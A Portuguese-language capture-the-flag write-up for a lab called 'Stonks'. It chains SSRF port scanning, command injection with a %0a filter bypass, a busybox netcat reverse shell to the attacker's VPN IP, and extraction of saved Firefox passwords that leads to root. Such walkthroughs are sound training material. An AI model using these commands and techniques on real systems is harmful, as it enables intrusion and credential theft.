# Stonks

Acessando o IP gerado pelo lab, temos uma página de login:



Realizando fuzzing, descobrimos o endpoint `register` para criarmos nossa conta:

```bash
ffuf -u http://<IP_DA_VPN>/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200
```



Cadastrando nosso usuário, somos redirecionados para o dashboard na área logada. Ao acessar a aba de “Stocks”, temos gráficos relacionados às ações da bolsa de valores dos EUA. Usando a funcionalidade de adicionar stock à carteira, com um ticker que já está na carteira e um número maior que zero, aparece um aviso de que a aplicação levará 2 dias para refletir na carteira.



Ao interceptar a requisição, vemos que a aplicação faz uma requisição para a API do Yahoo Finance:




Como o parâmetro de URL é controlado pelo usuário, é possível realizar um ataque de SSRF. Assim, podemos passar uma URL com uma porta local no parâmetro e também buscar outras portas que estão expostas apenas internamente e que estariam rodando outras aplicações, não acessíveis por nossa máquina de ataque, mas sim pela própria aplicação.

Ao enviar a requisição para o Intruder, podemos adicionar o caractere `§` na porta e usar na payload as portas mais conhecidas.



Ao realizarmos nosso ataque, descobrimos `status_code 200` na porta 8080 com a mensagem “Cannot GET /”.

Isso indica que existe uma aplicação rodando na porta 8080. Com isso, podemos fazer um fuzzing na URL interna para tentar encontrar algum endpoint que seja interessante. Com ffuf podemos fazer um fuzzing com requisições POST:



Encontramos `api-docs` e `swagger.json` como resposta comprida e status 200. Ao passarmos `swagger.json`, obtemos a resposta:



Deparemos com um endpoint interessante. Ele recebe um host como parâmetro para realizar um ping:



Foi possível observar que ele realiza um ping. Então, vamos tentar um command injection para pegar um shell reverso no servidor.

Porém, ao passar outro comando separando por `;`, obtemos “Access denied”. Ou seja, para contornar isso, podemos substituir o `;` por `%0a` para realizar bypass no filtro de caracteres.



Recebemos a requisição e agora podemos subir novamente o listener e trocar pela payload de um reverse shell.

```bash
busybox nc <IP_VPN> 80 -e /bin/bash
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Conseguimos fazer upgrade da nossa shell e obter a primeira flag:



Na pasta do usuário `investor` existe uma pasta `.mozilla`. Isso indica que ele utilizava o Firefox e pode haver alguma credencial salva nessa pasta. Ao pesquisarmos no Google por “firefox credentials decrypt”, encontramos um repositório com uma ferramenta para decifrar senhas salvas do Mozilla.

Sendo assim, vamos clonar o repositório na nossa máquina:

```bash
git clone https://github.com/unode/firefox_decrypt.git
```

Copiamos esse arquivo para a máquina alvo através de um servidor Python na máquina de ataque:

```bash
python3 -m http.server 80
```

Na máquina alvo, executamos:

```bash
wget http://<IP_DA_VPN>/firefox_decrypt.py
```

Ao executarmos a ferramenta (`python3 firefox_decrypt.py`), retorna um erro:



Ao entrarmos na pasta `.mozilla/firefox`, vemos uma pasta com nome estranho que termina com `default-esr`:



Então, passamos essa pasta como parâmetro para a ferramenta e conseguimos extrair a senha:



Executamos o comando `su` para aumentar nossos privilégios e, ao passarmos essa senha, conseguimos a shell como root.

Vamos até a pasta root e pegamos nossa flag!


